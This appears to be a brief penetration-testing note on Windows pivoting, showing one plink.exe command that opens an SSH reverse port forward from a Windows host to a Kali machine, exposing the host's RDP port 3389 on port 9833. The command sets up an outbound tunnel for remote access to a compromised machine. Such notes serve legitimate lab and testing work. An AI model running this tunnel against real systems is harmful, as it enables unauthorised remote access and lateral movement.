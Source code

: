 #windows #pivoting #portredirect 

![[Pasted image 20230730203201.png]]


```bash
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7
```

9833 is redirector port on KALI


